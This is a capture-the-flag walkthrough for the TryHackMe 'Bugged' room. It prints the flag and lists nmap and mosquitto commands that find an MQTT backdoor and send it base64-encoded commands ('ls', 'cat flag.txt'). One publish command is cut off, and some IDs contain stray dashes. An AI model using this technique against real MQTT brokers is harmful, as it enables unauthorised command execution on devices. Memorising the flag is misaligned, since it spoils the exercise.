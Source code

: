 # <div align="center">[Bugged](https://tryhackme.com/r/room/bugged)</div>
<br>
<div align="center">John likes to live in a very Internet connected world. Maybe too connected...</div><br>
<div align="center">
<img src="https://github.com/user-attachments/assets/bc6de6eb-0839-405b-a33b-165c46c3393a" height="180"></img>
</div>

## Task 1. Analyze the network

John was working on his smart home appliances when he noticed weird traffic going across the network. Can you help him figure out what these weird network communications are?

### What is the flag?
```
flag{18d44fc0707ac8dc8be45bb83db54013}
```
```
sudo nmap -sV -sC <IP>
sudo apt-get install mosquitto mosquitto-clients -y
mosquitto_sub -t "#" -h <IP>
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==" | base64 -d
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "simple_massage" -h <IP>
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
echo "SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=" | base64 -d
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "e2lkOiAiY2RkMWIxYzDigJMxYzQw4oCTNGIwZi04ZTIy4oCTNjFiMzU3NTQ4YjdkIiwgY21kOiAiQ01EIiwgYXJnOiAibHMifQ==" -h <IP>
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbij9" | base64 -d
echo "{"id": "cdd1b1c0–1c40–4b0f-8e22–61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}" | base64
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "e2lkOiBjZGQxYjFjMOKAkzFjNDDigJM0YjBmLThlMjLigJM2MWIzNTc1NDhiN2QsIGNtZDogQ01E
mosquitto_sub -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub" -h <IP>
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZ3suLi4uLi4uLi4ufSJ9" | base64 -d
```
